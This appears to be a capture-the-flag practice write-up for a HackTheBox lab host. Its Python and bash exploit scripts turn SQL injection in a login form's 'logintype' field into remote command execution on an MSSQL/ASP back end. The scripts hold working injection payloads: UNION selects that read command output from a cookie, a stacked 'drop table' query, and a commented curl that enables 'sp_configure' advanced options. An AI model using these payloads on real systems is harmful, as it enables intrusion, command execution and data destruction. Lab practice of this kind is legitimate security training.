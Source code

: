 ``` python
    print(topIdCounter)

    for i in range(1, int(topIdCounter)):
        post_data = {
            'username': 'admin',
            'password': 'admin',
            'logintype': '2 union select 1,2,3,4,(select output from rce where id=%d),6-- -' % i,
            'rememberme': 'ON',
            'B1': 'LogIn'
        }
        r = requests.post(main_url, data=post_data, allow_redirects=False)
        output = b64decode(r.headers['Set-Cookie'].split(";")[0].replace("Email=", "").replace("%3D", "="))

        if b"\xeb\xde\x94\xd8" not in output:
            print(output.decode())
    truncateTable()

def dropTable():
    post_data = {
        'username': 'admin',
        'password': 'admin',
        'logintype': '2;drop table rce;-- -',
        'rememberme': 'ON',
        'B1': 'LogIn'
    }
    # Dropping table
    r = requests.post(main_url, data=post_data)

if __name__ == "__main__":
    createTable()

    while True:
        command = input("> ")
        command = command.strip('\n')

        executeCommand(command)



```
----------------
Practice bash scripting (in process)
``` bash
#!/bin/bash
#
trap ctrl_c INT

function ctrl_c() {
    echo -e "\n\n\033[0;31m[!] Exiting...\033[0m"
    dropTable
    exit 1
}
main_url="http://members.streetfighterclub.htb/old/verify.asp"

#enable advanced options
#curl -s -X POST "$main_url" \
#  --data-urlencode "logintype=2;exec sp_configure 'show advanced options', 1;-- -" \
#  --data "username=admin" \
#  --data "password=admin" \
#  --data "rememberme=ON" \
#  --data "B1=LogIn"

```